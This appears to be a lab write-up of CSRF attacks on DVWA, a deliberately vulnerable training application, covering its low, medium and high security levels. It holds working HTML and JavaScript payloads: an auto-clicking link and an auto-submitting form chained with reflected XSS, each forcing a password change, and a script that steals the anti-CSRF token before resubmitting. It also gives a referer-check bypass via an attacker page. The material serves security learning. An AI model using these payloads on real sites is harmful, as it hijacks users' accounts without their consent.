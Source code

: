 `FOR ALL CASES USER MUST BE LOGGED IN`

## LOW
- Here attacker had to get the user to open a web page hosted by attacker which had the code below. 
- This is the get request url to change the password.
- I create an anchor tag ref to the url and us js to click on it and pw was changed.

```
<!-- Works for low -->

<body onload="document.querySelector('a').click();">

	<a href="http://192.168.0.104/dvwa/vulnerabilities/csrf/?password_new=termite&password_conf=termite&Change=Change">lol</a>

</body> 

<!-- low -->
```

## MEDIUM
- Same like above Social Engineering to get till this page.. 
- here server had a header referer verification
- since verification was based on partial text match in url, i.e. it checked for *goole* as referer but since user was navigated to pw change request by our site the header referer would have our page's url. 
- to by pass this we can make a page of that name and use that path.
	- i.e. evil.com/goole
- another way was to user xss to make user make that request from the same website 
- below code uses reflective xss and adds img tag ref to malicious url to user's page
```
<!-- Should work for Medium -->

<body onload="document.forms[0].submit()">

	<form action="http://192.168.0.104/dvwa/vulnerabilities/xss_r/" method="GET">
	
		<input type="hidden" name="name" value="<img src='http://192.168.0.104/dvwa/vulnerabilities/csrf/?password_new=dumbell&password_conf=dumbell&Change=Change'">

		<input type="submit">Submit</input>

	</form>

</body>

<!-- medium -->
```

## High
- For high there was anti-csrf token implemented by dev.
- what we did here was similar to our anti-csrf brute forcing, we created a javascript file which would grab a csrf token for us by requresting the password change page and then use that token to send another request to change the password.

```
var theUrl = 'http://192.168.0.106/dvwa/vulnerabilities/csrf/';
var pass = 'admin';
if (window.XMLHttpRequest){
    xmlhttp=new XMLHttpRequest();
}else{
    xmlhttp=new ActiveXObject("Microsoft.XMLHTTP");
}
xmlhttp.withCredentials = true;
var hacked = false;
xmlhttp.onreadystatechange=function(){
    if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
        var text = xmlhttp.responseText;
        var regex = /user_token\' value\=\'(.*?)\' \/\>/;
        var match = text.match(regex);
        var token = match[1];
        var new_url = 'http://192.168.0.106/dvwa/vulnerabilities/csrf/?user_token='+token+'&password_new='+pass+'&password_conf='+pass+'&Change=Change'
        if(!hacked){
            alert('Got token:' + match[1]);
            hacked = true;
            xmlhttp.open("GET", new_url, false );
            xmlhttp.send();  
        }
    }
};
xmlhttp.open("GET", theUrl, false );
xmlhttp.send();  
```